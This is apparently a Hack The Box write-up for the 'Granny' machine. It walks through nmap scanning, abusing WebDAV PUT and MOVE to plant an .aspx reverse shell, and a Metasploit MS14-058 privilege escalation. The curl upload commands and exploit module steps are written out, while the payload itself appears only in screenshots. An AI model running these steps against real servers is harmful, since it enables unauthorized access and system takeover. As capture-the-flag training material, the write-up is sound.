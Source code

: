 # [Granny](https://app.hackthebox.com/machines/granny)

```bash
nmap -p- --min-rate 10000  10.10.10.15 -Pn
```

![Alt text](img/image.png)

After knowing open port (80), we can do more greater nmap scan.

```bash
nmap -A -sC -sV -p80 10.10.10.15 -Pn 
```

![Alt text](img/image-1.png)


I see that it's also 'Webdav' , that's why let's test which type of files we can upload.

For this , I use `davtest` command.

![Alt text](img/image-2.png)


I see that, .txt files are allowed, let's try ourselves.

```bash
echo "Dr4ks is here" > test.txt
curl -X PUT http://10.10.10.15/test.txt -d @test.txt
curl http://10.10.10.15/test.txt
```


![Alt text](img/image-3.png)


From allowed methods, I see that `MOVE` HTTP method is allowed, that's why I can replace any txt file with my malicious reverse shell whose extension is `.aspx`.


First, let's generate our malicious reverse shell with aspx file extension.

![Alt text](img/image-4.png)

Then, we upload our malicous file as legitimate.

![Alt text](img/image-5.png)


Then, we do 'MOVE' method for resolving real .aspx file.

![Alt text](img/image-6.png)


We got reverse shell from listener while we browse our malicious file via `curl` command.

![Alt text](img/image-7.png)

![Alt text](img/image-8.png)


While doing enumeration, I see that I need to do privilege escalation, from `systeminfo` command result.

This machine is vulnerable to `MS14-058` vulnerability.

Let's stay our reverse shell session on background via `Ctrl+Z` command use this exploit.

```bash
Ctrl+ Z
use exploit/windows/local/ms14_058_track_popup_menu 
set session 1
run
```

![Alt text](img/image-9.png)


user.txt

![Alt text](img/image-10.png)


root.txt

![Alt text](img/image-11.png)

